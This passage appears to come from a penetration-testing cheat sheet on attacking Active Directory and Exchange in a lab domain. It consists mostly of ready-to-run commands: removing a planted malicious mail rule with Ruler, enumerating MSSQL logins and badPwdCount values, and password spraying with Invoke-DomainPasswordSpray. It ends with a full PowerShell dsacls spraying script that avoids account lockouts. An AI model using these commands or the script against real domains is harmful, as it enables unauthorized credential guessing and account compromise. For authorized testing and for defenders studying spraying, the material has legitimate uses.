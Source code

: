 If you want to delete the malicious email rule, do this:

```
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

## <mark style="color:red;">MSSQL</mark>

```
use admin/mssql/mssql_enum_sql_logins
```

### <mark style="color:red;">**BadPwdCount attribute**</mark>

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## <mark style="color:red;">Invoke-DomainSpray</mark> <a href="#invoke-domainspray" id="invoke-domainspray"></a>

```
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```

```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```

## <mark style="color:red;">Spraying using dsacls</mark> <a href="#spraying-using-dsacls" id="spraying-using-dsacls"></a>

```
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
